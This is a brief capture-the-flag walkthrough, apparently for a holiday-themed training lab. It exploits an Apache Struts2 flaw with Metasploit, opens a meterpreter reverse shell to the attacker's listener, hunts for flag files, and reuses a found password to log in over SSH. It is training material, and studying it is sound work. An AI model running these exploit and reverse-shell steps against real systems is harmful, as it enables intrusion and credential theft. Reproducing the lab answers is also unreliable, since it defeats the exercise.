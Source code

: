 i know it has a vulnerability related to Apache Struts2

```
msfconsole
search Apache Struts2
```

![image](https://user-images.githubusercontent.com/90561566/209524167-d2de55c0-00dc-478a-90fe-b34fb32fe795.png)

```
set RHOSTS 10.10.144.227
set RPORT 80
set TARGETURI /showcase.action
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST 10.8.0.74
exploit
```

exploit successful

![image](https://user-images.githubusercontent.com/90561566/209525033-d24044ba-9897-452c-83a0-ff04595379e7.png)

```
shell
find / 2>>/dev/null | grep -i "flag"
```

![image](https://user-images.githubusercontent.com/90561566/209525741-bc3ba341-b07b-4280-859b-e7b2bfdf4860.png)

```
cat /usr/local/tomcat/webapps/ROOT/ThisIsFlag1.txt
```

i found santa password at his folder

![image](https://user-images.githubusercontent.com/90561566/209526132-1330f313-b44b-4ec8-bf17-a141bf86dbc4.png)

```
ssh santa@10.10.144.227
```

![image](https://user-images.githubusercontent.com/90561566/209526317-c143ce01-e91c-447a-bb70-f866a728de1d.png)

```
cat -n naughty_list.txt | grep 148
cat -n nice_list.txt | grep 52
```

![image](https://user-images.githubusercontent.com/90561566/209527167-dc12f893-7748-483c-a968-bc0bcac5a304.png)

Answer

![image](https://user-images.githubusercontent.com/90561566/209527294-5c9b5989-2e03-4541-b7a8-2901fed312e8.png)

## Day 11: Elf Applications
